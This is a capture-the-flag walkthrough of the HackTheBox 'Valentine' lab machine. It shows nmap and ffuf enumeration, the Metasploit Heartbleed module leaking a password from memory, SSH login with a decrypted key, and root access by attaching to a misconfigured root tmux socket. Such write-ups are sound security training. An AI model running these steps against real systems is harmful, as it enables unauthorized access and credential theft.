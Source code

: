 ```yaml
---
title: "Valentine"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["heartbleed"]
---
```


![infocard](media/valentine_infocard.png)

# Exploiting the Valentine Machine on HackTheBox: A Detailed Walkthrough

## Introduction

Valentine is an easy machine on HackTheBox that involves exploiting the Heartbleed vulnerability to gain initial access and leveraging a misconfigured tmux session for privilege escalation. This walkthrough will guide you through the process of compromising the Valentine machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- 10.10.10.79 > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-04 08:46 EST
Nmap scan report for valentine.htb (10.10.10.79)
Host is up (0.22s latency).

PORT    STATE SERVICE   VERSION
22/tcp  open  ssh       OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http      Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/https Apache/2.2.22 (Ubuntu)
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-12-04T13:49:33+00:00; +1m05s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 1m04s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.30 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 5.9p1
- **HTTP (80):** Apache httpd 2.2.22
- **HTTPS (443):** Apache httpd 2.2.22

### Web Enumeration

Visiting the HTTP and HTTPS services on ports 80 and 443 revealed the same image as the homepage.

**Webpage:**

![Homepage](media/valentine_homepage.png)

The homepage is a hint for the Heartbleed vulnerability. We proceeded to exploit this vulnerability using Metasploit.

## Exploiting Heartbleed

### Understanding Heartbleed

Heartbleed is a vulnerability in the OpenSSL cryptographic library, which allows attackers to read sensitive information from the memory of affected servers.

### Using Metasploit

We used the `auxiliary/scanner/ssl/openssl_heartbleed` module in Metasploit to exploit the Heartbleed vulnerability.

**Metasploit Module Execution:**

```bash
msf6 > use auxiliary/scanner/ssl/openssl_heartbleed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 10.10.10.79
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
```

**Exploit Output:**

![Metasploit Output](media/valentine_msfoutput.png)

The exploit leaked some base64 strings in memory. Decoding `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` provided the password:

```
heartbleedbelievethehype
```

### Directory Brute-Forcing

Using `ffuf`, we discovered several directories:

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.79/FUZZ
```

**Key Directories Identified:**

- `/dev`

**Discovered Files:**

![Dev Directory](media/valentine_dev.png)

## Gaining Initial Access

### Extracting the SSH Key

The `hype_key` file contained data in decimal format. Decoding this data revealed an encrypted SSH key.

**SSH Key:**

![SSH Key](media/valentine_sshkey.png)

### Decrypting the SSH Key

The `notes.txt` file contained a to-do list, which hinted at the passphrase for the SSH key. Using the passphrase `heartbleedbelievethehype`, we decrypted the SSH key and logged into the `hype` account.

**SSH Access:**

```bash
ssh -i hype_key hype@10.10.10.79
```

**User Shell Obtained:**

![User Shell](media/valentine_user.png)

## Privilege Escalation

### Enumerating Tmux Sessions

Running `linpeas.sh` revealed that root had an active tmux session with a socket at `/.devs/dev_sess`.

**Tmux Socket Permissions:**

```bash
hype@Valentine:~/Desktop$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Dec  4 22:45 /.devs/dev_sess
```

### Hijacking the Tmux Session

We attached to the root tmux session to gain a root shell.

**Attaching Tmux Session:**

```bash
tmux -S /.devs/dev_sess
```

**Root Shell Obtained:**

![Root Shell](media/valentine_root.png)

## Conclusion

The Valentine machine on HackTheBox provided a comprehensive challenge, encompassing web application enumeration, Heartbleed exploitation, and privilege escalation through a misconfigured tmux session. By methodically enumerating services and exploiting discovered vulnerabilities, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.